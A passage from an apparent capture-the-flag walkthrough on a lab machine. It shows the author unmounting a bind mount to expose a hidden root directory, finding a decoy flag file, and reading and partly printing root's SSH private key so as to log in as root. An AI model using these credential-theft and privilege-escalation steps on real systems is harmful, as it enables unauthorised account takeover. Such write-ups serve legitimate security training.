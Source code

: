 ```bash
```

I wondered why /opt/CoocFS is mounted and not just a folder. So tried it with -s:

```bash
varg@cchq:~$ findmnt -s
TARGET       SOURCE                                                                                       FSTYPE OPTIONS
/            /dev/disk/by-id/dm-uuid-LVM-mrAx163lW73D8hFDlydZU2zYDwkd7tgT28ehcZQNMmzJmc0XKYP9m3eluIT1sZGo ext4   defaults
/boot        /dev/disk/by-uuid/6885d03d-f1fb-4785-971e-2bb17a3d22e3                                       ext4   defaults
/opt/CooctFS /home/varg/cooctOS_src                                                                       none   defaults,bind
```

Interesting. I wonder if that’s the target we are supposed to unmount? Let’s try:

```bash
varg@cchq:~$ ls /opt/CooctFS/
bin  boot  etc  games  lib  run  tmp  var

varg@cchq:~$ sudo /bin/umount /opt/CooctFS

varg@cchq:~$ ls /opt/CooctFS/
root
```

Clever. The CooctFS mount was hiding the root folder that was already inside. Let’s have a look:

```
varg@cchq:~$ ls -la /opt/CooctFS/root
drwxr-xr-x 5 root root 4096 Feb 20 09:16 .
drwxr-xr-x 3 root root 4096 Feb 20 09:09 ..
lrwxrwxrwx 1 root root    9 Feb 20 09:15 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3106 Feb 20 09:09 .bashrc
drwx------ 3 root root 4096 Feb 20 09:09 .cache
drwxr-xr-x 3 root root 4096 Feb 20 09:09 .local
-rw-r--r-- 1 root root   43 Feb 20 09:16 root.txt
drwxr-xr-x 2 root root 4096 Feb 20 09:41 .ssh
```

We found the root flag:

```
varg@cchq:~$ cat /opt/CooctFS/root/root.txt
hmmm...
No flag here. You aren't root yet.
```

Ah, tricked us! However there’s a .ssh folder, so we can probably just copy the id\_rsa key to Kali then use it to log in as root:

```
varg@cchq:~$ cat /opt/CooctFS/root/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAx2+vTyYoQxGMHh/CddrGqllxbhNo3P4rPNqQiWkTPFnxxNv6
5vqc2vl5vd3ZPcOHp3w1pIF3MH6kgY3JicvfHVc3phWukXuw2UunYtBVNSaj6hKn
DwIWH3xCnWBqG6BR4dI3woQwOWQ6e5wcKlYz/mqmQIUKqvY5H3fA8HVghu7ARSre
Jz2sMB4GzqER8/G9ESan7UOtrarhvHtC+l5g2QIDAQABAoIBAC9qKRa7LqVLXbGn
<SNIP>
9ejKB+8SSAFrerw4YeNaF430jouhcNKdvdQHAHmxvKNI6dk8wwbm6ur14BgJpb9n
0NFYJEzcf2mhdsBbr5aAL3kD9Dwfq9Le2StO092i0WsjrAPO3Lwj9isFspiFltAF
gEaHHwKBgQDQQ3tLEWwGbULkIXiKopgN/6ySp23TVFHKK8D8ZXzRgxiroBkG129t
FXhWaDVCDTHczV1Ap3jKn1UKFHdhsayK34EAvRiTc+onpkrOMEkK6ky9nSGWSWbr
knJ1V6wrLgd2qPq2r5g0a/Qk2fL0toxFbnsQRsueVfPwCQWTjSo/Wg==
-----END RSA PRIVATE KEY-----
```
